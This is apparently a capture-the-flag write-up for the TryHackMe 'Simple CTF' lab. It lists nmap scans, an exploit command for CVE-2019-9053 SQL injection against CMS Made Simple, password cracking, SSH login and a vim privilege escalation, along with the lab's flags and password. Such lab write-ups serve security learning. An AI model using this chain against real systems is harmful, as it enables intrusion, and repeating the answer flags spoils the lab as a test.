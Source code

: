 
![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/logo.png|875]]

Link: https://tryhackme.com/r/room/easyctf

# Task 1 - Simple CTF 


1. **How many services are running under port 1000?**
```bash
sudo nmap -sS -p- 10.10.76.159 -oN simplectf.txt -T4
```

```bash
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 417.03 seconds
```

>2 ports open under port 1000

2. **What is running on the higher port?**

```bash
sudo nmap -A -p2222 10.10.76.159 
```

```bash
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

>SSH

Navigate to http://10.10.76.159/ and its nothing special here.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-1.png]]

Use `gobuster` for directory scanning and I've found a directory called `/simple`.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-2.png]]

Navigate to http://10.10.76.159/simple and scroll to the bottom. Noticed that it's using CMS Made Simple with version 2.2.8

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-3.png]]

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-4.png]]

Search for vulnerability using `searchsploit`.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-5.png]]


3. **What's the CVE you're using against the application?**

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-6.png]]
>CVE-2019-9053

4. **To what kind of vulnerability is the application vulnerable?**
>SQLi

5. **What's the password?**
```bash
 python exploit.py -u http://10.10.76.159/simple/ --crack -w /usr/share/wordlists/rockyou.txt
```

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-8.png]]

It keep crashing but luckily we got the username so I decided to crack it using hydra.

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-7.png]]
>secret


6. Where can you login with the details obtained?

![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-9.png]]
>ssh

7. What's the user flag?
>G00d j0b, keep up!

8. Is there any other user in the home directory? What's its name?
```ssh
$ pwd
/home/mitch
$ cd /home
$ ls
mitch  sunbath
```
>sunbath

9. What can you leverage to spawn a privileged shell?
![[Writeups/TryHackMe/assets/img/THM-Writeups/Simple-CTF/img-10.png]]
>vim

10. What's the root flag?
```ssh
# cd /root
# pwd
/root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
```
>W3ll d0n3. You made it!
